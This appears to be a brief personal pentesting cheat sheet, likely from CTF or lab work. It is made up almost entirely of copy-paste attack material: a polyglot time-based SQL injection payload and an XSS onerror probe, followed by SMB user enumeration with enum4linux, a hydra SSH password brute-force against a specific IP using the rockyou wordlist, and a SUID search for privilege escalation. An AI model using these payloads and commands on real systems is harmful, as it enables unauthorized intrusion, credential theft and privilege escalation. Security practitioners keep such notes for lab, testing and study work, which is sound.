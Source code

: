 # copypáte
 ## SQLi one for all
    
    SLEEP(10)+/*'+or+SLEEP(10)+or'"+or+SLEEP(10)+or+"*/
 ## XSS
 
    "><img src=dwqdwq onerror=console.log(1)>

    
# SystemPrivilegeCommand


 **smb find username ,password**
 
 >./enum4linux.pl -a <IP> to get username
 
 **check rockyou to get password ssh with hydra**
 
 >hydra -l jan -P /home/madridista/wordlists/rockyou.txt 10.10.131.125 ssh
 
 

 **find SUID**
 
 >find / -user root -perm -4000 -exec ls -ldb {} \;

 

